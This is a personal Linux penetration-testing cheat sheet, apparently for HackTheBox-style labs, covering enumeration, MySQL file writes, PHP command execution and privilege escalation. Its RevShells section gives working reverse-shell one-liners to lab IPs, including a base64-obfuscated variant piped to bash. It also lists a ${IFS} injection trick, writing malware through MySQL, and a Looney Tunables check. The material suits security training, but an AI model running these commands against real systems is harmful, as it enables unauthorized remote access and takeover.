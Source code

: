# Linux CheatSheet
## General

```bash
find . -type f -name "*.txt"
#find all files with extension in current dir

md5sum <filename> 
#gets md5 hash of file

find / -type d -name '.git'
#finds dirs with name

cd /var/mail && cd /var/spool/mail
#check for mail

```

${IFS} can be used in place of whitespace when no whitespace allowed

jd-gui used to decompile jar files

## Enumeration

```bash
mkdir nmap
nmap -A -T4 -v -oN nmap/initial $IP 
sudo masscan -p1-65535,U:1-65535 $IP --rate=1000 -e tun0 -oL nmap/masscan

hosts
#alias for 'sudo nano /etc/hosts'

dirsearch -u $URL
gobuster dir -u $URL -w /home/kali/directory-list-2.3-medium.txt

ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://devvortex.htb -H "Host:FUZZ.devvortex.htb" -mc 200,204,301,307,401,403,405,500
#fuzzes subdomains

wpscan --url <url> -v -e 

sudo responder -wA -I tun0 -v 
#Spoofs every server imaginable to get info on connection attempts

dig axfr @<ip> <hostname>
#gets other hostnames from port 53 of server

```
Always google open ports, not just services shown/guessed by nmap

.dockerenv in / means you're in a docker container

gitdump used to dump .git directories 


## MySQL

```bash
mysql -u <username> -p <database>
#connect to mysql database on machine
show databases;
use <databasename>;
show tables;

```

mysql can usually write into /var/lib/mysql/

SELECT "bashscript" into outfile '/dev/shm/malware.sh';

SELECT from_base64("base64encoded") into outfile '/dev/shm/nothing.txt';


## RevShells

```bash
bash -i >& /dev/tcp/10.10.15.59/9002 0>&1
nc 10.10.14.54 8888 -e bash

echo "bash -i >& /dev/tcp/10.10.15.59/8000 0>&1" | base64
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NC84ODg4IDA+JjE= | base64 -d | bash

which python
which python3

python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo #with ctrl-z/backgrounded
fg
export TERM=xterm
reset
```

/home/kali/php-reverse-shell.php is php reverse shell that can be uploaded to php server

For things running on localhost, if you have ssh session then you can forward it to yourself using ~C , then -L 8080:localhost:8080

## PHP

With PHP, can put <?php exec("command"); ?> in a .php file then call it

Or exec("command"); in interactive php

Remember to base encode, and not have + in them as will fuck with url encoding. double base encoding usually works well

Also, when calling .php files try both with and without the extension in web browser...

## PrivEsc

```bash
sudo -l 
#shows any commands to be run as sudo by user

chmod +x pspy && ./pspy 
#sees all commands run, can find cron run as sudo etc

/home/kali/linpeas.sh 
#good tool for PE enum

env 
#shows env variables, could have creds

uname -a 
#shows linux build, could be vuln

ldd --version
#shows GLIBC version, could be vuln (loonytoonables)

env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
#loonytoonables vuln if returns Segmentation fault (core dumped)

ps aux ww

find / -perm -u=s -type f 2>/dev/null 
#finds suid bit

python2 fallofsudo.py

```

look in all interesting folders, .git, .config, /var/www, /, .local

check /var/www, use ls -la. .env is common php password storage thingie

## Web

https://beautifier.io/ - Use detect packers & obfuscators

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
